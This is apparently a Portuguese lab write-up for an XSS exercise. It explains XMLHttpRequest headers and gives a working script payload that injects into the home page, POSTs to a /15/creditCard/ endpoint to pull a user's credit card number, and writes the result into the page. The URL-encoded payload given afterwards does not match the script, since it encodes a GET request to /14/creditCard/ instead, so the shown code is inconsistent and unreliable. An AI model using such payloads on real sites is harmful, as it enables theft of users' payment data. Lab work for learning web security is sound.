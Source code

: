 #### Objetivo

Muitas vezes a informação que desejamos em uma aplicação, não está armazenada na mesma página vulnerável a XSS, porém, conhecendo a arquitetura da aplicação ou da API, é possível, a partir de um XSS, buscar estas informações em qualquer lugar.

O objetivo desta *task*, é se aproveitar do ponto vulnerável a XSS na tela inicial para buscar o número do cartão de crédito contido em outro *endpoint* da aplicação com uma requisição do tipo POST usando `XMLHttpRequest()`. Após obter estes dados, eles precisam ser inseridos em um elemento chamado `exploit` que está na tela inicial.

#### Conhecimento Base

Outra propriedade importante é o `setRequestHeader` do objeto `XMLHttpRequest`, este é usado para definir os cabeçalhos HTTP para uma solicitação. Este método aceita dois argumentos: o nome do cabeçalho e o valor do cabeçalho. Ele é geralmente chamado após o método `open`, mas antes do método `send`.

É importante observar que existem algumas restrições ao uso de `setRequestHeader`. Por razões de segurança, você não pode definir certos cabeçalhos controlados pelo navegador, como `Referer` e `Host`. Além disso, chamar `setRequestHeader` após `send` resultará em um erro.

#### Exploração

Assim com ona *task* anterior, existe um *endpoint* que retorna o número do cartão de crédito, o **/15/creditCard/** seguido do parâmetro **user**.

Porém, desta vez a API só aceita requisições do tipo POST. Para criarmos um *request* com o `XMLHttpRequest`, além das informações que já temos, precisamos utilizar o método `setRequestHeader` para indicar um formulário válido.

```html
<script>
var req = new XMLHttpRequest();
req.onreadystatechange = function() {
	if (req.readyState == 4 && req.status == 200) 
	{
		document.getElementById("exploit").innerHTML = req.responseText;
	}
};
req.open("POST", "/15/creditCard/", true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send("user=h41stur");
</script>
```

Convertendo para *URL Encode*:

```
%3Cscript%3E%0Avar%20req%20%3D%20new%20XMLHttpRequest%28%29%3B%0Areq.onreadystatechange%20%3D%20function%28%29%20%7B%0A%09if%20%28req.readyState%20%3D%3D%204%20%26%26%20req.status%20%3D%3D%20200%29%20%0A%09%7B%0A%09%09document.getElementById%28%22exploit%22%29.innerHTML%20%3D%20req.responseText%3B%0A%09%7D%0A%7D%3B%0Areq.open%28%22GET%22%2C%20%22%2F14%2FcreditCard%2F%3Fuser%3Dh41stur%22%2C%20true%29%3B%0Areq.send%28%29%3B%0A%3C%2Fscript%3E
```
